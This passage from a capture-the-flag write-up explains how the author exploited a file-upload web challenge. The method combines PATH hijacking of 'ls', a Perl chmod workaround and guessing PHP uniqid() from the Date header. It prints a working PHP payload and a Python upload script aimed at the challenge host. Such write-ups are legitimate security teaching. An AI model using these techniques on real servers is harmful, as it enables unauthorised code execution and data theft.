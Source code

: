 ### ... and exploiting it!

We know have all the pieces to exploit the vulnerability, right? Right?
Almost: notice line 39 on the Dockerfile:

```
RUN rm -f /bin/chmod /usr/bin/chmod /bin/chown /usr/bin/chown
```

We do not have the `chmod` command! As our goal is to create a script that is executed in place of `/bin/ls`, we need it to be executable! Hope's not lost though: `chmod` is not the only way to change file permissions. In fact, it is just an interface to the system call `chmod`! We just need to find another way to call it. The first approach was to use PHP. We can already execute a PHP script as it is included, might as well use to `chmod` our `ls`. Unfortunately, it does not appear to work. I couldn't find a reason why. Anyhow, we can also use PERL, which is installed on the challenge container: `perl -e 'chmod 0777, "/path/to/ls"'`.

Finally, we can put together a PHP script that will leak us the flag:

```php
<?php
$abyss = trim(shell_exec("/make_abyss_entry"));
$ls = "/abyss/" . $abyss . "/ls";
system("echo -e '#!/bin/sh\\\\ncat /flag.txt' > " . $ls);
system("perl -e 'chmod 0777, \\"$ls\\"'");
system("export PATH=/abyss/$abyss:\\$PATH && /list_uploads");
```

The first line creates a directory in `/abyss` to put our `ls` in. Then, we first create the `ls` file with a simple `cat /flag.txt` command in it, we `chmod` it using PERL, and finally we run the `/list_uploads` ELF with the PATH set to use our `ls`.

### Sending the exploit

Last issue: we have to send our exploit and have it executed. To do this, we need to somehow guess the `uniqid()` output. The first thing that we can notice is that the server includes the `Date` header. From MSN documentation: "The Date general HTTP header contains the date and time at which the message originated. "
From this, we get to know the second in which the `uniqid()` was (likely) called. This de-randomizes the first 8 nibbles of `uniqid()`. The last 5 nibbles are still random, but we can try to brute force them. They are quite a bit, but with a bit (double pun intended) of luck we manage to succeed.

The script used is the following:

```py
#!/usr/bin/env python
import concurrent
import concurrent.futures
import requests
import datetime

file_content = """
<?php
$abyss = trim(shell_exec("/make_abyss_entry"));
$ls = "/abyss/" . $abyss . "/ls";
system("echo -e '#!/bin/sh\\\\ncat /flag.txt' > " . $ls);
system("perl -e 'chmod 0777, \\"$ls\\"'");
system("export PATH=/abyss/$abyss:\\$PATH && /list_uploads");
"""
filename = "exploit.php"
file_hash = "ab1159fd69632fa2c058c7a5a4a25e17696dfb32442a67cdb8643aabdff6955e"

open(filename, "w").write(file_content)

base_url = "https://filestore.web.actf.co"

f = open(filename)
r = requests.post(base_url, files={"f": f})
```
